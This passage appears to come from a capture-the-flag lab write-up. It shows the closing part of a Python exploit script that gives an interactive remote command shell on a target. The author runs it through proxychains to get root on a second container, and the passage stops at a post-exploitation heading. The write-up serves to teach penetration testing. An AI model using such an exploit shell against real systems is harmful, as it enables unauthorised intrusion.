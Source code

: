 ```python
        cmd = raw_input("~$ ")
        if cmd == "exit":
            sys.exit("{!} Shell exiting!")
        else:
            execute_command(target=target, command=cmd)

def main(args):
    banner()
    if len(args) != 2:
        sys.exit("Use: %s target" %(args[0]))
    exploit(target=args[1])

if __name__ == "__main__":
        main(args=sys.argv)

```

There is a hodge-podge of crap going on with this exploit, but the most important thing to note is when we run it we do not need to specify HTTP/HTTPS or the destination port as it is already specified for us. It matches up with what we see on the 172.20.0.124 container, so we'll leave it as is. Let's chuck this thing through proxychains and see what happens:

![screenshot](/assets/img/safeharbor/container2_root.PNG)

Awesome, we have root on a new container. Let's grab some basic info on this container in case it's useful later:

![screenshot](/assets/img/safeharbor/container2_hostinfo.PNG)

## Container 3 - Post-Exploitation
